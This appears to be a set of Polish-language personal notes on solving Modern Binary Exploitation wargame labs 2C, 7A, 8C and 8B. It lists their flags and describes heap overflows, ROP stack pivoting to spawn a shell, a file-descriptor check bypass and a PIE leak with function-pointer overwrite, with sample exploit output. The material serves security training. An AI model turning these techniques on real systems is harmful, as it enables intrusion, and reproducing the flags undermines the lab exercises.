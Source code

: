 ## MBE - Notatki do zadań ##

**Misc Info**

* Zmienne na stosie są alokowane w odwrotnym kierunku niż deklaracja w kodzie programu
* Kierunek ułożenia w heapie jest odwrotny do tego co na stosie - czyli zgodnie z deklaracją w programie


----

**Lab 2C**

Flaga:  `1m_all_ab0ut_d4t_b33f`

----

**Lab 7A**

Flaga:  `0verfl0wz_0n_th3_h3ap_4int_s0_bad`

* Binarka statycznie skompilowana z Partial RELRO, kanarkiem i NX - **brak ASLR!**
* Po 60 sekundach następuje timeout, więc w debuggerze trzeba obsłużyć SIGALARM
* Wiadomości przechowuje struktura zdefiniowana poniżej:
```c
struct msg {
    void (* print_msg)(struct msg *);
    unsigned int xor_pad[MAX_BLOCKS];
    unsigned int message[MAX_BLOCKS];
    unsigned int msg_len;
};
```
* Użytkownik podaje wiadomość oraz *jej rozmiar* - pod spodem następuje xorowanie z jakimiś wartościami, które są w tym wypadku bez znaczenia
* Błąd pozwalający na nadpisanie zmiennej `msg_len` występuje w snippecie poniżej (problemem jest wykorzystanie typu int i dzielenie z "ucięciem" ułamka - dzięki temu możemy zapisać o `BLOCK_SIZE - 1 ==> 3` bajtów poza buforem i warunek w ifie będzie spełniony):
```c
/* make sure the message length is no bigger than the xor pad */
    if((new_msg->msg_len / BLOCK_SIZE) > MAX_BLOCKS)
        new_msg->msg_len = BLOCK_SIZE * MAX_BLOCKS;

    /* read in the message to encrypt with the xor pad */
    printf("-Enter data to encrypt: ");
    read(0, &new_msg->message, new_msg->msg_len);
```
* Aby nadpisać zmienną `msg_len` wystarczy stworzyć wiadomość o długości 131 bajtów (128 max + 3 przepełnienia) i podać dowolnego stringa o tej długości
* Druga wiadomość o dowolnej długości (najlepiej ~100 bajtów) oraz treści posłuży do przechowania w niej bajtów łańcucha ROP
* Korzystając z nadpisanej zmiennej `msg_len` za pomocą opcji edytowania, wpisujemy łańcuch ROP nie zważając na jego wielkość
* Chunki na heapie są oddzielone od siebie o 272 bajty
* Aby umieścić dane na stosie można wykorzystać zmienną `numbuf` (ESP+0x1C) z funkcji `print_index()` - zawiera indeks wiadomości do wyświetlenia (`strtoul()` musi to umieć przeparsować i się nie wysypać):
```c
int print_index()
{
    char numbuf[32];
    unsigned int i = 0;

    /* get message index to print */
    printf("-Input message index to print: ");
    fgets(numbuf, sizeof(numbuf), stdin);
    i = strtoul(numbuf, NULL, 10);

    if(i >= MAX_MSG || messages[i] == NULL)
    {
        printf("-Invalid message index!\n");
        return 1;
    }

    /* print the message of interest */
    messages[i]->print_msg(messages[i]);

    return 0;
}
```
* Docelowa struktura pamięci wygląda w następujący sposób (do pivotu): `| Śmieci (272b - 132b) | Adres add esp, 0x24... | Śmieci (44b) | Łańcuch ROP |` 
* W tym momencie wymagane jest umieszczenie wskaźnika na `message[1]` (tam jest umieszczony ROP) w EAX, celem wywołania go pod adresem `0x804951F w print_index()` -
* Aby to uzyskać wpisujemy w `numbuf` (stos) : `| Śmieci (12b) | Adres mov eax, edx... | Adres xchg eax, esp... |`

**Podsumowanie wykonania kodu**:

*W tym zadaniu kluczem jest aby zrozumieć, że ESP może wskazywać nie tylko dane na stosie ale również na heapie - dlatego wykorzystywany jest gadżet:* ``add esp, 0x24``

1. W `numbuf` podmieniamy wskaźnik ESP na `message[1]`
2. Przeskok do `message[1]` i kolejny przeskok ESP+24h gdzie jest właściwy ROP
3. Właściwy ROP i wykonanie `system(/bin/bash)`

----

**Lab 8C**

Flaga:  `3v3ryth1ng_Is_@_F1l3`

* Binarka skompilowana ze wszystkimi mechanizmami bezpieczeństwa
* Zjada w argumentach zarówno ścieżki do plików, jak i deskryptory plików
* Dane przechowywane są w strukturze:
```c
struct fileComp {
	char fileContents1[255];
	char fileContents2[255];
	int cmp;
};
```
* Program wczytuje zawartość plików i porównuje je pod kątem leksykograficznym
* Posiada dwa sprawdzenia: pierwszy - czy fd nie jest STDIN oraz czy ścieżka do pliku nie kończy się znakami `.pass` za pomocą funkcji `securityCheck()`
* Funkcję `securityCheck()` można bardzo prosto obejść podając w jakimkolwiek argumencie, że sprawdzanym plikiem jest STDERR - wtedy następuje wypisanie flagi:
```
lab8C@warzone:/levels/lab08$ ./lab8C -fd=3 -fn=/home/lab8B/.pass
"3v3ryth1ng_Is_@_F1l3
" is lexicographically equivalent to "<<<For security reasons, your filename has been blocked>>>"
```

----

**Lab 8B**

Flaga: `Th@t_w@5_my_f@v0r1t3_ch@11` 

* Binarka skompilowana ze wszystkimi mechanizmami bezpieczeństwa
* Funkcjonalność to dodawanie do siebie wektorów trzymanych w strukturze:
```c
struct vector {
	void (*printFunc)(struct vector*);
	char a;
	short b;
	unsigned short c;
	int d;
	unsigned int e;
	long f;
	unsigned long g;
	long long h;
	unsigned long long i;
};
```
* W programie jest dodana funkcja `thisIsASecret()` która wywołuje shella
* Program obsługuje trzy wektory - v1 + v2 = v3
* Wektory w pamięci procesu są ułożone "nie po kolei":
  * v1 - Address: 0x80003040
  * v2 - Address: 0x80003100
  * v3 - Address: 0x80003080
  * fav - Address: 0x800030C0
* Dodanie sumy do ulubionych to nowa alokacja pamięci i dodanie do dziesięcioelementowej tablicy wskaźników
* Funkcja `loadFave()` ładuje wybrany wektor z ulubionych do v1
* Funkcja `fave()` jest podatnym komponentem zadania - nadpisuje o 4 bajty * indeks za dużo i dzięki kilkukrotnemu dodaniu wektora do ulubionych jesteśmy w stanie modyfikować jego zawartość za pomocą wcześniejszego sumowania:
```c
void fave()
{
	unsigned int i;
	for(i=0; i<MAX_FAVES; i++)
		if(!faves[i])
			break;
	if(i == MAX_FAVES)
		printf("You have too many favorites.\n");
	else
	{
		faves[i] = malloc(sizeof(struct vector));
		memcpy(faves[i], (int*)(&v3)+i, sizeof(struct vector));
		printf("I see you added that vector to your favorites, \
but was it really your favorite?\n");
	}
}
```
* Aby pokonać PIE wystarczy dodać pierwszy wektor i wypisać go na konsolę - jest tam podany adres funkcji printFunc a następnie policzyć offset pomiędzy `printVector` a `thisIsSecret` i różnicę tych wartości zapisać w wektorze
* Pięciokrotne dodanie wektora będącego sumą do ulubionych pozwala na całkowitą kontrolę nad wskaźnikiem funkcji w strukturze
* Uruchomienie kodu z nowego wskaźnika następuje po załadowaniu ostatniego ulubionego wektora jako v1 i żądaniu jego wyświetlenia:
```
lab8B@warzone:/levels/lab08$ python /tmp/lab_8b.py
[+] Starting program '/levels/lab08/lab8B': Done
[*] Stage #1 - Adding first vector
[*] Stage #2 - Leaking printVector() address
[*] Leaked printVector() address: 0x800010e9
[*] thisIsSecret() address: 0x800010a7
[*] Stage #3 - Adding second vector
[*] Stage #4 - Summing the vectors
[*] Stage #5 - Overwrite printFunc() address
[*] Stage #6 - Load malicious vector into v1
[*] Stage #7 - Execution of thisIsSecret()
[*] Switching to interactive mode
[...]
$ cat /home/lab8A/.pass
Th@t_w@5_my_f@v0r1t3_ch@11
```

